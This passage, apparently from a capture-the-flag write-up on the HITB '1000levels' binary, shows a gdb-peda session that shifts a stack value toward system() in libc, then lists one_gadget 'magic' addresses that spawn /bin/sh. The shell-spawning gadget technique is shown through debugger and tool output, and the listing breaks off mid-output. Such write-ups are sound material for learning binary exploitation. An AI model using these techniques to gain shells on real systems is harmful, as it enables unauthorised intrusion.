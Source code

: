 We can adjust the value dynamically by modifying our second value we pass in.
This allows us to place an address at an offset to `system()` in libc. To
demonstrate, we can point the address to `puts()` knowing that it is at an
offset 0x2a300 to `system()`.

```shell
gdb-peda$ r
Starting program: /vagrant/hitb/1000levels/1000levels
Welcome to 1000levels, it's much more diffcult than before.
1. Go
2. Hint
3. Give up
Choice:
2
NO PWN NO FUN
1. Go
2. Hint
3. Give up
Choice:
1
How many levels?
0
Coward
Any more?
172800
More levels than before!
Breakpoint 1, 0x0000555555554c4a in go() ()
gdb-peda$ stack
0000| 0x7fffffffe3b0 --> 0x2a300
0008| 0x7fffffffe3b8 --> 0x555555554d79 (<_Z4hintv+137>:    nop)
0016| 0x7fffffffe3c0 --> 0x7ffff7a7c690 (<_IO_puts>:    push   r12)
0024| 0x7fffffffe3c8 --> 0x3e8
0032| 0x7fffffffe3d0 --> 0x4e5546204f ('O FUN')
0040| 0x7fffffffe3d8 --> 0x0
0048| 0x7fffffffe3e0 --> 0x0
0056| 0x7fffffffe3e8 --> 0x0
```

This is important because we are not able to control the arguments to
`system()`. We have to use another trick.

## LIBC Magic Addresses

This trick would be to use a LIBC magic address. These are gadgets in the LIBC
binary that give you a shell, given certain constraints, when you jump to it. I
use a nifty tool called `one_gadget` to search for these gadgets for me.

```shell
amon@narwhals:~$ one_gadget libc.so.6
0x4526a    execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xcd0f3    execve("/bin/sh", rcx, r12)
constraints:
  [rcx] == NULL || rcx == NULL
  [r12] == NULL || r12 == NULL

0xcd1c8    execve("/bin/sh", rax, r12)
constraints:
  [rax] == NULL || rax == NULL
  [r12] == NULL || r12 == NULL

0xf0274    execve("/bin/sh", rsp+0x50, environ)
constraints:
```